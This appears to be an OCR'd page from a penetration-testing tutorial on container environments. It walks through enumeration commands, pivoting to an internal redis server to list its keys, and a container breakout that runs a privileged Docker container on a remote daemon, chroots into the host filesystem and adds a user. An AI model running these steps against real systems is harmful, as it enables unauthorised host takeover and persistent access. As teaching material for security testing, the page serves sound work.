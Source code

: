 ```
env
```

* The **HOSTNAME=:** string that follows is in 8-digit hex format, indicative of a Docker container naming convention
* The **PYTHON\_VERSION=** string indicates that the container is speciﬁcally only for Python or a Python- based service, like ﬂask.

**ps command**

```
ps -ef
```

**mount command**

```
mount
```

**netstat command**

```
netstat -an
```

#### Pivoting

We can move laterally in an environment several ways, including setting up port forwards and proxies. We can also just bring down binaries to help us move further in an environment until we need to perform an additional direct pivot.

**OS details**

```
cat /etc/os-release
```

**Install redis for alpine linux**

```
apk --update add redis
```

**Run redis-cli**

```
redis-cli -h redis

KEYS *
```

#### Breaking Out of Containers

**Privileged Pods**

Let’s execute a Docker container using the privileged command and passing in devices from the host.

```
docker -H 192.168.56.12 run -it --name nginx --privileged --ipc=host --net=host --pid=host -v /:/host ubuntu

# list processes
ps -ef

# make our container’s root the host’s root
chroot /host

# show all the processes on the host
systemctl status

# add a user
adduser <username>
```